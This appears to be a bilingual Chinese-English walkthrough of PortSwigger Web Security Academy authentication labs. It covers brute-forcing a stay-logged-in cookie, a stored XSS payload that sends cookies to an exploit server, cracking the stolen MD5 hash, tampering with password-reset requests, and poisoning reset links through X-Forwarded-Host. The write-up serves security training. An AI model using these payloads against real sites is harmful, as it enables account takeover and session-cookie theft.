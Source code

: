 ```yaml
---
title: "Lab Other Mechanisms"
date: 2022-07-04T10:47:36+08:00
---
```


## Lab: Brute-forcing a stay-logged-in cookie

Your credentials: wiener:peter  
Victim's username: carlos  
Cookie: stay-logged-in=d2llbmVyOjUxZGMzMGRkYzQ3M2Q0M2E2MDExZTllYmJhNmNhNzcw;  
Inspecter自动用base64解开 wiener:51dc30ddc473d43a6011e9ebba6ca770   
其中md5('peter')=51dc30ddc473d43a6011e9ebba6ca770  

爆破cookie  
Under Payload processing, add the following rules in order. These rules will be applied sequentially to each payload before the request is submitted.  

    Hash: MD5
    Add prefix: carlos:
    Encode: Base64-encode

As the Update email button is only displayed when you access the /my-account page in an authenticated state, we can use the presence or absence of this button to determine whether we've successfully brute-forced the cookie. On the Options tab, add a grep match rule to flag any responses containing the string Update email. Start the attack.   

## Lab: Offline password cracking


-    Your credentials: wiener:peter
-    Victim's username: carlos
-    贴心的提供了xss服务器exploit server

Go to one of the blogs and post a comment containing the following stored XSS payload, remembering to enter your own exploit server ID:   
```
<script>document.location='//exploit-XXXXX.web-security-academy.net/'+document.cookie</script>
```
在log里发现  
```
10.0.1.221      2022-07-04 07:15:58 +0000 "GET /secret=Z624gql0H30Vxh0ItRUVqjRshMd4KGuT;%20stay-logged-in=Y2FybG9zOjI2MzIzYzE2ZDVmNGRhYmZmM2JiMTM2ZjI0NjBhOTQz HTTP/1.1" 404 "User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.5060.53 Safari/537.36"
``` 
解开是carlos:26323c16d5f4dabff3bb136f2460a943  
在https://md5hashing.net/hash/md5/26323c16d5f4dabff3bb136f2460a943 获得明文onceuponatime  

##  Lab: Password reset broken logic

重制wiener的密码，拦截请求，修改用户名即可
```
temp-forgot-password-token=sPOfETbWOq9MGJq6gjk3sw4JEvpKDg2L&username=carlos&new-password-1=123456&new-password-2=123456
```

##  Lab: Password reset poisoning via middleware

学习Password reset poisoning  
https://portswigger.net/web-security/host-header/exploiting/password-reset-poisoning  

推荐插件`Param Miner`  
https://github.com/PortSwigger/param-miner   
https://portswigger.net/bappstore/17d2949a985c4b7ca092728dba871943   
https://portswigger.net/blog/practical-web-cache-poisoning   


拦截重置密码的请求,修改用户名，添加header
```
X-Forwarded-Host: exploit-XXXXX.web-security-academy.net
```


## Lab: Password brute-force via password change

替换用户名,利用重置密码爆破
```
username=carlos&current-password=12345678&new-password-1=123456&new-password-2=1234
```


